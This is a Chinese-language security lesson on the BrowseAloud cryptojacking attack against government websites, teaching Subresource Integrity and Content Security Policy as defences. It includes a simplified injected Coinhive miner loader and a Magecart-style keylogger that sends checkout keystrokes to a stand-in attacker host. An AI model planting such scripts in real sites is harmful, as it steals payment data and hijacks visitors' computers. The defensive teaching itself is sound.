




# 025：一次政府网站加密劫持攻击的后果与防御 🛡️



在本节课中，我们将通过一个真实案例，学习什么是加密劫持攻击，它是如何通过第三方依赖链大规模传播的，以及我们可以采取哪些简单有效的措施来保护自己的网站。

## 概述

故事始于一个周日的早晨。一位朋友访问英国信息专员办公室（ICO）的官方网站时，其杀毒软件弹出了恶意软件警告。随后的调查揭示，这并非孤立事件，而是波及全球数千个政府网站的大规模加密劫持攻击。攻击者并未直接攻击目标网站，而是通过入侵一个为这些网站提供文本朗读功能的小型第三方供应商，实现了“一次入侵，全网感染”。

上一节我们介绍了事件的起因，本节中我们来看看攻击的具体细节。

## 攻击是如何发生的？

攻击的核心在于一个看似无害的第三方JavaScript库。政府网站为了满足无障碍访问要求，引入了一个名为“BrowseAloud”的文本朗读插件。攻击者成功入侵了该供应商，并在其提供的JavaScript文件中注入了恶意代码。

### 恶意代码分析

被注入的恶意代码经过混淆处理，但解码后其逻辑非常简单：

```javascript
// 这是一个简化的示例，展示了恶意代码的核心逻辑
var script = document.createElement('script');
script.src = 'https://coinhive.com/lib/coinhive.min.js';
document.head.appendChild(script);

// 配置并启动加密货币挖矿程序
script.onload = function() {
    var miner = new CoinHive.Anonymous('攻击者的钱包地址');
    miner.start();
};
```

这段代码的作用是动态加载Coinhive加密货币挖矿库，并利用访问者的CPU资源为攻击者挖掘门罗币。

### 攻击链梳理

以下是攻击的完整链条：

1.  **入侵供应商**：攻击者通过钓鱼或弱凭证等方式，入侵了BrowseAloud公司的系统。
2.  **污染资源**：攻击者修改了该公司托管在云存储（如AWS S3）上的公共JavaScript文件。
3.  **自动传播**：所有引用了该污染文件的网站，在用户访问时都会自动执行挖矿脚本。
4.  **持续获利**：攻击者坐收渔利，利用海量政府网站的访问流量进行挖矿。

上一节我们剖析了攻击手法，本节中我们来看看这次事件暴露出的核心安全问题。

## 核心问题：JavaScript的“空白支票”

这次事件最根本的问题，在于我们如何引入第三方资源。观察一下受感染网站引入该插件的代码：

```html
<script src="https://cdn.browsealoud.com/browsealoud.js"></script>
```

**这个`<script>`标签就像一张签署好的空白支票。** 它向浏览器发出的指令是：“去这个网址，拿到一些JavaScript代码，然后无条件地执行它。”我们不知道代码会做什么、有多少、是否会改变。我们完全信任了第三方。

当网站自身有严格的代码变更、测试和上线流程时，却允许一个外部供应商无需任何审批即可将代码直接部署到生产环境，这构成了巨大的安全落差。

上一节我们指出了信任模型的缺陷，本节中我们来看看如何通过技术手段解决这个问题。

## 防御方案一：子资源完整性（SRI）

子资源完整性（Subresource Integrity, SRI）是一种浏览器原生安全特性，用于确保引入的第三方资源未被篡改。

### SRI的工作原理

你需要在`<script>`或`<link>`标签中添加`integrity`属性，其值是资源文件的加密哈希值（如SHA-256）。浏览器在下载文件后，会计算其哈希值并与`integrity`属性中的值比对。如果不匹配，浏览器将拒绝执行或加载该资源。

### 如何实施SRI

以下是实施SRI的示例：

```html
<script src="https://cdn.example.com/library-v1.2.3.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous">
</script>
```

**关键点**：
*   **版本锁定**：SRI要求资源有固定的版本路径（如`library-v1.2.3.js`），而不是指向“最新版”（如`latest.js`）。在本案例中，我们最终迫使供应商提供了版本化路径。
*   **生成哈希**：你可以使用在线工具（如[Report URI的SRI Hash生成器](https://report-uri.com/home/sri_hash)）或命令行工具来生成哈希值。

SRI能有效防止托管在CDN上的资源被篡改。但它的一个限制是要求资源必须是静态、版本化的。

上一节我们学习了如何锁定资源完整性，本节中我们来看一个更灵活、功能更强大的防御工具。

## 防御方案二：内容安全策略（CSP）

内容安全策略（Content Security Policy, CSP）是一个更全面的安全层，它通过HTTP响应头来声明允许加载哪些资源，从而显著减少XSS等攻击的风险。

### CSP如何阻止本次攻击

一个简单的CSP策略可以这样设置：

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.browsealoud.com;
```

这个策略表示：
*   `default-src ‘self’`：默认只允许加载同源（自己域名下）的资源。
*   `script-src ‘self’ https://cdn.browsealoud.com`：脚本只能从同源或指定的`browsealoud.com`域名加载。

**即使恶意代码被注入到允许的`browsealoud.com`脚本中，CSP还能在以下环节发挥作用：**
1.  **阻止加载**：如果恶意代码尝试加载来自`coinhive.com`的脚本，由于该域名不在允许列表内，请求会被浏览器直接阻止。
2.  **阻止通讯**：CSP的`connect-src`指令可以控制页面能向哪些地址发送数据。即使挖矿代码被直接嵌入，当它尝试连接`coinhive.com`上报数据时，也会被拦截。
3.  **接收报告**：你可以通过添加`report-uri`或`report-to`指令，让浏览器将违规行为以JSON格式报告给你指定的端点，从而实现攻击监控。

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.browsealoud.com; report-uri /csp-report-endpoint;
```

上一节我们探讨了两种关键技术防御手段，本节中我们来看看攻击模式的演变以及更深层的启示。

## 攻击的演变：从加密劫持到Magecart



攻击者很快发现，在网站上偷偷挖矿收益有限。于是，一种更“高效”的攻击模式——Magecart（数字信用卡窃取）——开始盛行。

### Magecart攻击模式

攻击手法类似，依然是入侵第三方供应商或网站，注入恶意JavaScript。但 payload 变成了一个简单的键盘记录器：

```javascript
// 简化的Magecart键盘记录器逻辑
if (window.location.href.includes('/checkout')) {
    document.addEventListener('keydown', function(event) {
        // 将按键数据发送到攻击者控制的服务器
        fetch('https://attacker-server.com/log', { method: 'POST', body: event.key });
    });
}
```

这种攻击针对支付页面，窃取用户输入的信用卡号、有效期、安全码等所有信息。由于对用户体验无影响，潜伏期可以很长，危害极大。英国航空和Ticketmaster等公司都曾因此遭受数亿英镑的损失。



### 核心启示

*   **依赖链是薄弱环节**：现代攻击者不再总是正面攻击防护严密的大型目标，而是寻找其生态链中最薄弱的第三方依赖。
*   **脚本注入是“万能钥匙”**：一旦攻击者能够向你的页面注入JavaScript，他们几乎可以做任何事情：窃取数据、篡改内容、发起勒索，或者只是像本案一样低调地挖矿。他们只是“选择”不做得更过分。

## 总结

本节课中我们一起学习了一次全球性的政府网站加密劫持攻击案例。我们了解到：

1.  **攻击路径**：攻击通过入侵一个第三方无障碍插件供应商实现，污染了其提供的JavaScript文件，导致所有使用该插件的网站被感染。
2.  **根本问题**：不加验证地引入第三方`<script>`标签，相当于给出了一张执行任意代码的“空白支票”。
3.  **防御措施**：
    *   **子资源完整性（SRI）**：为第三方静态资源添加哈希校验，确保其未被篡改。**公式**：`<script integrity="sha256-...">`。
    *   **内容安全策略（CSP）**：通过HTTP头定义资源加载白名单，并能阻止数据外泄、接收违规报告。**代码**：`Content-Security-Policy: script-src ‘self’ https://trusted.cdn.com;`
4.  **攻击演进**：此类脚本注入攻击已从加密劫持发展为更危险的Magecart信用卡窃取。
5.  **行动号召**：立即审计你网站上的所有第三方脚本，尽可能为它们添加SRI校验，并制定和实施CSP策略。保护你的网站，不再给攻击者留下“空白支票”。



安全是一个持续的过程，从理解风险开始，到实施正确的控制措施结束。希望这个案例能帮助你更好地保护你的应用。